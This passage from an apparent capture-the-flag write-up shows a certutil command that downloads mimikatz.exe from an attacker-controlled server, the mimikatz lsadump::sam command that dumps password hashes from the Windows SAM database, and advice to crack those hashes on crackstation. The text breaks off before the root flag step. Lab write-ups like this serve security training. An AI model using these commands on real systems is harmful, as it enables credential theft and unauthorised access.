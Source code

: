 ```
certutil -urlcache -split -f http://10.9.215.120:8081/mimikatz.exe mimikatz.exe
```


![image](/posts/res/BP18.png) 

now we execute it by simply running:

```
mimikatz.exe
```

to dump hashes from the SAM database we use the following command:

```
lsadump::sam
```

![image](/posts/res/BP19.png) 

to crack the hash simply head over to crackstation and input the hash.

now to get root flag 